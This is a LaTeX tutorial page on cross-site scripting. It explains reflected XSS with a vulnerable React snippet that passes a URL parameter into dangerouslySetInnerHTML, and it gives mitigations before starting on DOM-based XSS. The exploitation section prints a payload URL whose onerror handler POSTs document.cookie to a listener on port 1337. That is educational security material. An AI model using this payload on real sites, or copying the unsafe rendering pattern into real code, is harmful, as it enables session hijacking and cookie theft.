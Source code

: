 \documentclass[]{article}
\begin{document}
Reflected Cross-Site Scripting (XSS) occurs when user input is reflected in the server's response without proper validation. For example, an attacker might craft a malicious search URL containing a script. The server processes the request without sanitizing the input, and the frontend displays a message like "You are searching for XYZ," where "XYZ" is the malicious script. The browser then executes the script, potentially exposing sensitive data. Reflected XSS, also known as Non-Persistent XSS, happens in a single request-response cycle. \\ 
\textbf{Vulnerable code:}
Consider the situation where users can search for sellers by username. The vulnerable React code in \texttt{routes/locatorPage.js} retrieves the seller's username from the URL query parameter \texttt{sellerUsername} and displays it using the \texttt{dangerouslySetInnerHTML} property. \\ 
Here is the vulnerable code:
\begin{lstlisting}
<p>You are searching for seller: <span dangerouslySetInnerHTML={{__html: sellerUsername}}></span> </p> 
\end{lstlisting}
\textbf{Exploitation:}
An attacker can craft a malicious URL like this:

\begin{lstlisting}
http://localhost:3000/user/locator?sellerUsername=<audio src="" onerror="fetch('http://localhost:1337', {method:'POST', body:document.cookie})">
\end{lstlisting}
When a user clicks on this URL, the script executes and sends the user's cookies to the attacker's server listening on port 1337. The attacker can capture the cookies using netcat. \\ 
\textbf{Mitigation:}
To prevent Reflected XSS vulnerabilities, it is essential to set cookies with the \texttt{HttpOnly: true} flag to block access to \texttt{document.cookie}, properly handle and sanitize all user inputs, especially those included in the URL, and stop using \texttt{dangerouslySetInnerHTML}.

\paragraph{DOM-Based Cross-Site Scripting}

DOM-Based Cross-Site Scripting (XSS) is a type of XSS attack caused by improper handling of untrusted input on the client-side, rather than the server-side. This means the vulnerability exists within the client-side code (e.g., JavaScript) that manipulates the DOM, without any need to reach back to the web server. As standalone web applications become more prevalent, the importance of securing client-side code against DOM XSS has increased.
\end{document}
